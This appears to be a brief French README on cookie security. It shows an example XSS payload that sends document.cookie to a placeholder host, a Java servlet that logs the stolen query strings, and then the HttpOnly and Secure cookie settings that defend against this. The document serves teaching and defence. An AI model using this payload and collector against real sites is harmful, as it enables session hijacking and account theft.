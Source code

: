# Securite Cookies



### Exemple d'utilisation de faille XSS 


```
// Javascript
<script>
xhr=new XMLHttpRequest();
xhr.open("GET", "//URL:8080/project/doSomething?data="+encodeURI(document.cookie), true);
xhr.send();
</script>
```

```
// Java Servlet
@WebServlet("/cat")
public class Cat extends HttpServlet {

	protected void service(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
		System.out.println(request.getRequestURL()+"?" + request.getQueryString());		
	}
}
```

### Quelques solutions
Activer les option HttpOnly et Secure.

```
// Par exemple dans la servlet
Cookie cookie = new Cookie("userName", name);
cookie.setHttpOnly(true);
response.addCookie(cookie);
```

```
// Dans le web.xml
<session-config>
	<cookie-config>
		<secure>true</secure>
	</cookie-config>
</session-config>
```






